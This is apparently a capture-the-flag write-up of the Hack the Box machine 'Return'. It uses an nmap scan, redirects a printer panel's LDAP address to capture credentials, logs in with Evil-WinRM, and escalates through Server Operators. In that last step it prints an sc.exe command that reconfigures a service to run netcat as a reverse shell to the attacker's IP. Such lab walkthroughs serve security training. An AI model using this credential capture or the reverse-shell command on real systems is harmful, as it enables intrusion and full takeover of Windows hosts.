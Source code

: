 ```yaml
---
layout: post
title: "HTB: Return"
---
```


# Introduction

Return is an easy Windows box on the Hack the Box platform that focuses on abusing printer web admin panel on an active directory domain to get user LDAP credentials. Use them to log in using Evil-WinRM and discover some interesting privileges like **SeLoadDriverPrivilege** or **SeBackupPrivilege**. As a bonus the account is in the **Server Operators** group, which allows it to modify, start, and stop services. Which can be easily used to get a shell as SYSTEM.

# Recon

## nmap

```shell-session
sudo nmap -sC -sV -v -oA nmap_scan/nmap_results 10.129.95.241
```

nmap finds plenty of open ports, most interesting at the moment being ports **80** and **139,445** for **SMB**

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-30 09:38:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
52638/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 18m32s
| smb2-time: 
|   date: 2024-10-30T09:39:39
|_  start_date: N/A
```

## SMB - TCP 445

Dead end at the moment, maybe we will come back when we find some credentials.

![SMB](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-10-52.png)

## Web - TCP 80

The website is a 'HTB Printer Admin Panel'
![Web](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-11-07.png)

# Shell as svc-printer

On the 'Settings' tab ther eis pre-filled form
![Web2](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-11-18.png)

## Burp 

When using burp to check the POST request only one argument is send:

```
ip=printer.return.local
```
The other three fields in the form are not.
User can only change the Server Address ('ip'), and not port, username or password.

## Request

If we change the ip to our tun0 IP and start listener on port 389 we should catch some response.

![Request](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-11-42.png)
![Request2](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-11-58.png)

...and it’s trying to authenticate so we have username and password.

## WinRM

Credentials happen to work for WinRM, so we can get a shell usin Evil-WinRM

![WinRm_shell](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-25-07.png)

and get the user flag

![WinRm_shell](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-31-22.png)

# Privilege Escalation

## Groups and Privileges

First of all, let's check our privileges,

![priv](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-50-08.png)

and also groups.

![priv2](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-50-21.png)

A lot can be done with privileges like **SeLoadDriverPrivilege** or **SeBackupPrivilege** but the **Server Operators** group is quite a catch.

## Reverse shell

Server Operators can modify, start, and stop services, we can abuse this by having it run nc64.exe to give us a reverse shell.

Upload the nc.exe 

![nc](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-52-04.png)

Now modify a service binary path, stop and restart the service:

```shell-session
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.45 4444"
```
![sh](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-58-25.png)

Start listener and as soon as we start the service again we catch the shell.

![sh2](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-58-54.png)

![sh2](/docs/assets/img/HTB-Return/Screenshot_2024-10-30_05-58-00.png)

~
